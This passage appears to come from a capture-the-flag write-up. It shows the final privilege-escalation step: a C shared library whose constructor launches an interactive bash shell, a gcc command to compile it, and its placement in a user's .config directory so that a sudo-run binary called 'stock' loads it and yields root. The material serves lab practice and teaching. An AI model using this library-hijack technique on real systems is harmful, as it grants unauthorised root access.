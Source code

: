 Here's the C code I used based on the resource above:

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
void method()__attribute__((constructor));
void method() {
    system("/bin/bash -i");
}
```

Since we are already running this using `sudo`, no need to use `setuid` or `setgid`. Afterwards, compile it using this and download it to the `/home/rektsu/.config` file:

```bash
gcc -shared -fPIC -nostartfiles -o libcounter.so exploit.c
```

Then, we can run `stock` to get a `root` shell:

<figure><img src="../../.gitbook/assets/image (4183).png" alt=""><figcaption></figcaption></figure>

Rooted!
